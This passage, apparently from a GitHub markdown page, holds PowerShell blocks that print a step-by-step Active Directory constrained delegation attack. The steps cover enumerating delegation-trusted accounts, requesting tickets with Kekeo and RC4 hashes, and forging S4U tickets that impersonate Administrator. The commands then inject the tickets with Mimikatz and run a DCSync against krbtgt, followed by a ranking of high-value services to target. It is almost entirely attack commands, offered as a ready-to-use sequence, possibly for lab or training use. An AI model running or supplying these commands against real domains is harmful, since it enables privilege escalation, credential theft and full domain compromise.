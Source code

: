 ```powershell
Write-Host "5. Now request a TGS with the 2nd step and 4th step values as parameters" -ForegroundColor White
Write-Host "6. Keep a note of the TGS return Ticket" -ForegroundColor White
Write-Host "7. Now we can inject the TGS return Ticket with Invoke-Mimikatz" -ForegroundColor White
Write-Host "8. We can now list the file systems of that account" -ForegroundColor White
Write-Host "9. But if the user DC we can do the same process and then do a DCSync attack" -ForegroundColor White

Write-Host "`n🔧 COMPLETE CONSTRAINED DELEGATION COMMANDS:" -ForegroundColor Yellow

Write-Host "`nStep 1: Enumerate Users and Computers with CD Enabled" -ForegroundColor Cyan
Write-Host "# Enumerate users and computers with CD enabled" -ForegroundColor Gray
Write-Host "Get-DomainUser -TrustedToAuth" -ForegroundColor White
Write-Host "Get-DomainComputer -TrustedToAuth" -ForegroundColor White

Write-Host "`nStep 2: Request TGT Using Kekeo" -ForegroundColor Cyan
Write-Host "# Requesting a TGT" -ForegroundColor Gray
Write-Host "tgt::ask /user:websvc /domain:domain.local /rc4:cc098f204c5887eaa8253e7c2749156f" -ForegroundColor White
Write-Host "tgt::ask /user:dcorp-adminsrv /domain:domain.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67" -ForegroundColor White

Write-Host "`nStep 3: Request TGS for Target Service" -ForegroundColor Cyan
Write-Host "# Request a TGS" -ForegroundColor Gray
Write-Host "tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL" -ForegroundColor White
Write-Host "tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:time/computer.domain.LOCAL|ldap/computer.domain.LOCAL" -ForegroundColor White

Write-Host "`nStep 4: Inject the Service Ticket" -ForegroundColor Cyan
Write-Host "# Inject the ticket" -ForegroundColor Gray
Write-Host "Invoke-Mimikatz -Command '\"kerberos::ptt TGS.kirbi\"'" -ForegroundColor White

Write-Host "`nStep 5: Execute DCSync Attack (if targeting DC)" -ForegroundColor Cyan
Write-Host "# Execute DCSync" -ForegroundColor Gray
Write-Host "Invoke-Mimikatz -Command '\"lsadump::dcsync /user:dcorp\\krbtgt\"'" -ForegroundColor White

Write-Host "`n⚠️ IMPORTANT NOTES:" -ForegroundColor Red
Write-Host "- Constrained delegation limits scope but can still be dangerous" -ForegroundColor White
Write-Host "- Target high-value services (CIFS, LDAP, RPCSS)" -ForegroundColor White
Write-Host "- Can lead to privilege escalation and lateral movement" -ForegroundColor White
Write-Host "- Monitor for unusual service ticket requests" -ForegroundColor Yellow
```

#### **Constrained Delegation Target Analysis**
```powershell
# Constrained Delegation Target Analysis
Write-Host "=== CONSTRAINED DELEGATION TARGET ANALYSIS ===" -ForegroundColor Green

Write-Host "`n🎯 HIGH-VALUE DELEGATION TARGETS:" -ForegroundColor Yellow
Write-Host "1. CIFS (File access) - CRITICAL" -ForegroundColor Red
Write-Host "2. LDAP (Directory access) - CRITICAL" -ForegroundColor Red
Write-Host "3. RPCSS (Remote procedure calls) - CRITICAL" -ForegroundColor Red
Write-Host "4. HTTP (Web services) - HIGH" -ForegroundColor Yellow
Write-Host "5. MSSQLSvc (SQL Server) - HIGH" -ForegroundColor Yellow

Write-Host "`n🔍 DELEGATION SCOPE ANALYSIS:" -ForegroundColor Yellow
Write-Host "# Analyze delegation targets for attack potential" -ForegroundColor Cyan
Write-Host "$allDelegationTargets = @()" -ForegroundColor White
Write-Host "$constrainedUsers = Get-DomainUser -TrustedToAuth -Properties msDS-AllowedToDelegateTo" -ForegroundColor White
```